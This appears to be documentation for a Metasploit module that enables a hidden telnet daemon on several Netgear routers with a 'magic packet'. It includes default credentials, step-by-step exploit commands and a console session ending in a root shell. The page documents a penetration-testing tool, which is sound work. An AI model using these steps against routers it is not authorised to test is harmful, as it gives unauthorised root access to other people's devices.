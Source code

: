 ## Intro

Several models of Netgear devices have a hidden telnet daemon that can be
enabled for remote LAN users by sending a 'magic packet' to the device. 
Upon successful connect, a root shell should be presented to the user.

There are many devices which contain this daemon, for a full list see [OpenWrt](https://wiki.openwrt.org/toh/netgear/telnet.console)

This module has been successfully tested against:

 - AC1450 in whatever version I bought it with (TCP)
 - AC1450 latest V1.0.0.36_10.0.17 (UDP)
 - N300 WNR2000 v3 (TCP)

## Setup

A MAC address is required for exploitation.  To determine the MAC address of the device:

1. Ping the device to force an ARP lookup: ```ping -c 1 [IP]```
2. Get the MAC: ```arp -an [IP]```

## Targets

**0 (TCP)**

Older devices usually listen on TCP.

**1 (UDP)**

Newer devices usually listen on UDP.

## Options

**MAC**

Set this to the MAC address of the device. You can use `ping` and `arp`
to find it.

**USERNAME**

If this is an older device, it'll take the value of `super_username` in
`nvram`. `Gearguy` is usually correct.

If this is a newer device, it'll take the web UI username, which is
usually unchanged from `admin`.

**PASSWORD**

If this is an older device, it'll take the value of `super_passwd` in
`nvram`. `Geardog` is usually correct.

If this is a newer device, it'll take the web UI password, which is
usually unchanged from `password`.

## Exploitation 

1. Make sure you have a vulnerable device
2. Start metasploit
3. ```use exploit/linux/telnet/netgear_telnetenable```
4. ```set rhost [IP]```
5. ```set mac [MAC Address]```
6. ```exploit```
7. Enjoy a root shell!

## Usage

```
msf5 > use exploit/linux/telnet/netgear_telnetenable
msf5 exploit(linux/telnet/netgear_telnetenable) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf5 exploit(linux/telnet/netgear_telnetenable) > ping -c 1 192.168.1.1
[*] exec: ping -c 1 192.168.1.1

PING 192.168.1.1 (192.168.1.1) 56(84) bytes of data.
64 bytes from 192.168.1.1: icmp_seq=1 ttl=64 time=1.38 ms

--- 192.168.1.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1.381/1.381/1.381/0.000 ms
msf5 exploit(linux/telnet/netgear_telnetenable) > arp -an 192.168.1.1
[*] exec: arp -an 192.168.1.1

? (192.168.1.1) at [redacted] [ether] on wlan0
msf5 exploit(linux/telnet/netgear_telnetenable) > set mac [redacted]
mac => [redacted]
msf5 exploit(linux/telnet/netgear_telnetenable) > run

[*] 192.168.1.1:23 - Generating magic packet
[*] 192.168.1.1:23 - Connecting to telnetenabled
[*] 192.168.1.1:23 - Sending magic packet
[*] 192.168.1.1:23 - Disconnecting from telnetenabled
[*] 192.168.1.1:23 - Waiting for telnetd
[*] 192.168.1.1:23 - Connecting to telnetd
[*] Found shell.

id
id
uid=0 gid=0(root)
# uname -a
uname -a
Linux (none) 2.6.36.4brcmarm+ #17 PREEMPT Thu Apr 25 10:00:48 CST 2013 armv7l unknown
#
```
